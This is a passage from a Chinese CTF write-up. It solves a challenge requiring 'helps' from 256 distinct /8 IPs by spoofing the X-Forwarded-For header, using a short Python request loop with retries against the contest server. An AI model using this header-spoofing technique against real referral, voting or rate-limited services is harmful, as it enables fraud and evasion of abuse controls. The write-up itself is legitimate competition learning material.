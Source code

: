 输出如下
```

    xx  xx                       xx          x
   x     x     xxx              x            x
 xxxxx   x        x    xxx      x     xxx    x     x   x
   x     x     xxxx   x   xx  xx         x   xxxx   x x   xxxx  xxxx
   x     x    x   x   x   x     x     xxxx   x   x   x    x   x x   x
   x     x    x   x    xxxx     x    x   x   x   x  x x   x   x x   x
   x      xx   xxx x      x      xx   xxx x  xxxx  x   x  x   x x   x
                       xxx
   x          x      x             xx
              x      x              x
 xxx    xxx   x      x  x   xxx     x     xxx xx    xxxx  xxx  x  x  x
   x   x   x  xxxx   x x       x    x     x  x  x  x     x   x x  x  x
   x   x   x  x   x  xx     xxxx    x     x  x  x  x     x   x x  x  x
   x   x   x  x   x  x x   x   x    x     x  x  x  x     x   x  x x x
    x   xxx   x   x  x  x   xxx x    xx   x  x  x   xxxx  xxx    x x

                         x     x   xxx   xx                 xx
  xxxx   xxx   x   x    x         x   x   x           x       x
 x          x  x   x  xxxxx  xxx  x   x   x    xxx  xxxxx     x
  xxxx   xxxx   xxxx    x      x   xxxx   x   x   x   x        xx
      x x   x      x    x      x      x   x   xxxxx   x       x
  xxxx   xxx x    x     x      x  x   x   x   x       x  x    x
                 x      x       x  xxx     xx  xxx     xx   xx
```

## FLAG 助力大红包

![ip.jpg](https://i.loli.net/2021/10/30/tcrkp2EdU3iGeNq.jpg)
这题是个 pdd 套路，需要 256 个不同的 /8 ip 地址砍一刀才能获得 flag。

> 4. 每个用户只能够助力一次。为了建设世界一流大砍刀平台，活动要求位于同一 /8 网段的用户将会被视为同一个用户。（比如 IP 地址为 202.38.64.1 和 202.39.64.1 将被视为同一用户。）达到助力次数上线后，将无法再帮助好友助力。我们使用前后端方式检查用户的 IP 。

简单试了下，发现是经典的 `X-FORWARDED-FOR`，于是直接写脚本构造请求。唯一的坑就是有请求限速，所以我还加了个重试循环。

```python
succeed_ip=[]
while len(succeed_ip)!=256:
    for i in range(0,256):
        ip = f'{i}.1.1.1'
        if ip in succeed_ip: continue
        txt=requests.post('http://202.38.93.111:10888/invite/9900a95d-3a58-47c6-8a88-89a093ff9f16',
                            data={'ip':ip}, headers={'X-FORWARDED-FOR':ip}).text
        suc = '成功' in txt
        print(ip, suc)
        if suc:
            succeed_ip.append(ip)
```

## 加密的 U 盘
